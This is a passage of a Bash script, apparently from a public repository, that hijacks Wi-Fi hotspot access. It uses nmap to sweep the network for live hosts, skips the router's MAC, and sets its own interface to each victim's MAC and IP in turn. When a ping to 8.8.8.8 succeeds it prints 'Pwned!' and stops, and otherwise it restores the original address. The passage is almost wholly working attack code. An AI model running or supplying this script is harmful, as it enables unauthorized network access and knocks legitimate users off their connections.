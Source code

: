 ```
	sipcalc -s 24 "$network" \
	| awk '/Network/ {print $3}' > "$tmp"/networklist.$$.txt
		printf "%b\n" "Splitting up network $network into smaller chunks."
	else
		printf "%s\n" "$network" | cut -d "/" -f 1 > "$tmp"/networklist.$$.txt
	fi
}

routermac="$(nmap -n -sn -PR -PS -PA -PU -T5 $gateway | grep -E -o '[A-Z0-9:]{17}' | tr A-Z a-z)"

# Select network, set netmask, scan it for IP and MAC and hijack them. Repeat.
function main() {
	while read -r networkfromlist; do
	if [[ "$netmask" -lt 24 ]]; then
		network="$networkfromlist/24"
	else
		network="$networkfromlist/$netmask"
	fi
	
	# Scan selected network for active hosts.
	printf "%b\n" "Looking for active hosts in $network. Please wait."
	nmap -n -sn -PR -PS -PA -PU -T5 --exclude "$localip","$gateway" "$network" \
	| awk '/for/ {print $5} ; /Address/ {print $3}' \
	| sed '$!N;s/\n/ - /' > "$tmp"/hostsalive.$$.txt
	
		#Set founded IP and MAC for wireless interface
		while read -r hostline; do
			newipset="$(printf "%s\n" "$hostline" | awk '{print $1}')"
			newmacset="$(printf "%s\n" "$hostline" \
			| awk '{print $3}' \
			| tr '[:upper:]' '[:lower:]')"
			if [ "$routermac" != "$newmacset" ]; then
				printf "%b\n" "Trying to hijack $newipset - $newmacset"
				ip link set "$interface" down
				ip link set dev "$interface" address "$newmacset"
				ip link set "$interface" up
				ip addr flush dev "$interface"
				ip addr add "$newipset/$netmask" broadcast "$broadcast" dev "$interface"
				ip route add default via "$gateway"
				sleep 1
				
				# Check if Google DNS pingable with our new IP and MAC
				ping -c1 -w1 8.8.8.8 >/dev/null
				if [[ $? -eq 0 ]]; then
					printf "%b\n" "Pwned! Now you can surf the Internet!"
					exit 0
				fi
			else
				printf "%b\n" "Skipped $newipset - $newmacset"
			fi
			done < "$tmp"/hostsalive.$$.txt
			rm -rf "$tmp"/hostsalive.$$.txt
			printf "%b\n" "Suitable hosts not found. Checking another network chunk."
		done < "$tmp"/networklist.$$.txt
		rm -rf "$tmp"/networklist.$$.txt
		printf "%b\n" "No luck! Try again later or try another Wi-Fi hotspot."
	
	# Restore original MAC and IP
	ip link set "$interface" down
	ip link set dev "$interface" address "$macaddress"
	ip link set "$interface" up
	ip addr flush dev "$interface"
	ip addr add "$ipmask" broadcast "$broadcast" dev "$interface"
```